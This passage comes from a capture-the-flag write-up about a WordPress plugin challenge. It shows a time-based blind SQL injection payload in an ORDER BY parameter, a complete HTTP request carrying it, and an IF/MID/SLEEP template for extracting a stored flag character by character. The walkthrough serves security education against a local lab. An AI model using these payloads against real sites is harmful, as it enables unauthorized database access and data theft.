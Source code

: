 With that said, we can exploit the SQL injection vulnerability in the `ORDER BY` clause!

> Note: This mistake can totally happen in a real plugin. Recently I found an [unauthenticated Remote Code Execution via race condition vulnerability](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/file-manager/bit-file-manager-60-655-unauthenticated-remote-code-execution-via-race-condition) in [Bit File Manager](https://wordpress.org/plugins/file-manager/), which has a very similar flawed validation. ([Writeup from Wordfence](https://www.wordfence.com/blog/2024/09/20000-wordpress-sites-affected-by-remote-code-execution-vulnerability-in-bit-file-manager-wordpress-plugin/))

To exploit `ORDER BY` SQL injection vulnerability, we can have a quick Google search and find [this Stack Exchange post](https://security.stackexchange.com/questions/234539/order-by-sort-direction-is-exploitable-in-sql-injection#comment480962_234542). In that post, the author replied that payload `,(select*from(select(sleep(10)))a)` did work.

In our case, we can use that payload in either POST parameter `order` or `orderby`.

> Note: If you use the payload in `orderby`, the `,` is not needed. Otherwise, it'll cause a SQL syntax error.

Let's try that!

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

action=get_link_data&link_name=anything&order=asc&orderby=(select*from(select(sleep(10)))a)
```

**Executed SQL query:**
```sql
SELECT * FROM wp_links where link_name = 'anything' order by asc (select*from(select(sleep(10)))a)
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Patchstack-WCUS-Capture-The-Flag/images/Pasted%20image%2020240921184636.png)

Nice! The response took 11 seconds, which means the SQL injection payload is working!

Now you may wonder: **How can we exfiltrate the flag in the WordPress option via this blind SQL injection vulnerability?**

To do so, we can use a conditional statement, such as this:

```sql
(SELECT IF(MID( (SELECT <column_name> FROM <table_name>) ,<start_position>,1)='<character_here>',SLEEP(1),NULL))
```

Beautified:

```sql
(
  SELECT 
    IF(
      MID(
        (
          SELECT 
            <column_name> 
          FROM 
            <table_name>
        ), 
        <start_position>, 
        1
      )= '<character_here>', 
      SLEEP(1), 
      NULL
    )
)
```